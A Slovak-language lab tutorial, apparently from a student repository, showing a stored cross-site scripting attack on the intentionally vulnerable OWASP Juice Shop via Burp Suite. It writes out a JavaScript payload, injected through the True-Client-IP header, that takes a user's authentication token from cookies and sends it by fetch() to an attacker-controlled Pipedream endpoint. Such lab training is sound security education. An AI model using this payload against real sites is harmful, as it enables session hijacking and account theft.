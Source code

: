 # Stored cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Pre tento typ útoku budeme potrebovať nástroj, ktorý bude odchytávať HTTP požiadavky na server, čo nám umožňuje ich zobrazenie a úpravu. Zaužívaným nástrojom pre tieto potreby je BurSuite 
  (inštalácia - https://portswigger.net/burp/releases/professional-community-2024-2-1-5?requestededition=community&requestedplatform=).
- V Juice shop aplikácií máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu, z ktorej sme boli prihlásený. Posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
  pomocou interceptora nástroju BurpSuite a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy.
- Spustíme nástroj BurpSuite a preklikneme sa na položku "Proxy" a následne spustíme "Interceptor" (viď. príloha), ktorý odchytáva požiadavky.


![interceptor](../assets/burp_suite_interceptor.png)

- Pri odchytení požiadavky pridáme do hlavičky ešte jeden atribút "True-Client-IP" s hodnotou

      iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘pipedream-endpoint‘,
            options);" /iframe

  a požiadavku posunieme na server.
- Vložený kód ukradne z cookie súborov aplikácie autentifkačný token a odošle ho na náš vytvorený endpoint.
- Hodnotu 'pipedream-endpoint' musíme nahradiť vlastným endpointom. Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvoríme
  nový projekt. Po vytvorení projektu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do nášho kódu.
- Pri dalšom prihlasovaní sa pri návšteve obrazovky, kde zobrazujeme poslednú IP adresu prihlásenia už nezobrazí IP adresa ale náš kód. Kód odošle token prihlásaného používateľa na náš endpoint.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/stored-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/stored-xss.mp4)
